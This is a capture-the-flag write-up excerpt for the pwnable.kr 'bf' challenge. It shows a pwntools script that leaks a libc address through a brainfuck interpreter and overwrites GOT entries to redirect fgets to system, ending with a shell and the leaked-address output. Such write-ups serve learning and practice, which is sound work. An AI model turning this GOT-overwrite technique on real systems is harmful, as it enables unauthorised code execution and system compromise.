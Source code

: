 ```python
    READ = b"."
    WRITE = b","

e = ELF("./bf")
libc = ELF("./bf_libc.so")
# libc = ELF("/lib/i386-linux-gnu/libc.so.6")
p = remote("pwnable.kr", 9001)


p.recvuntil(b"type some brainfuck instructions except [ ]\n")

payload = b''
# change the pointer to be at the GOT['fgets']
payload += INSTRUCTIONS.MOVE_LEFT * (e.sym["tape"] - e.got["fgets"])
# read 4 bytes
payload += (INSTRUCTIONS.READ + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4
# rewrite the got address of `fgets` to `system`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4
# change the pointer to be at the GOT['memset']
payload += INSTRUCTIONS.MOVE_RIGHT * (e.got["memset"] - e.got["fgets"])
# rewrite the got address of `memset` to `fgets`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# reset the possition
payload += INSTRUCTIONS.MOVE_LEFT * 4

# change the pointer to be at the GOT['putchar']
payload += INSTRUCTIONS.MOVE_RIGHT * (e.got["putchar"] - e.got["memset"])
# rewrite the got address of `putchar` to `main`
payload += (INSTRUCTIONS.WRITE + INSTRUCTIONS.MOVE_RIGHT) * 4
# get to main
payload += INSTRUCTIONS.READ


p.sendline(payload)
time.sleep(1)
fgets_addr = u32(p.recv(4))
print("Leaked fgets address:", hex(fgets_addr))
offset = fgets_addr - libc.symbols["fgets"]
print("Offset is: ", hex(offset))

system_addr = libc.symbols['system'] + offset
gets_addr = libc.symbols['gets'] + offset

print("System:", hex(system_addr))
print("Gets:", hex(gets_addr))

p.send(p32(system_addr))
p.send(p32(gets_addr))
p.send(p32(e.symbols['main']))

p.sendline(b"/bin/sh")
p.interactive()
```
And we get a shell!
```
Leaked fgets address: 0xf7593160
Offset is:  0xf7535000
System: 0xf756fdb0
Gets: 0xf75943f0
```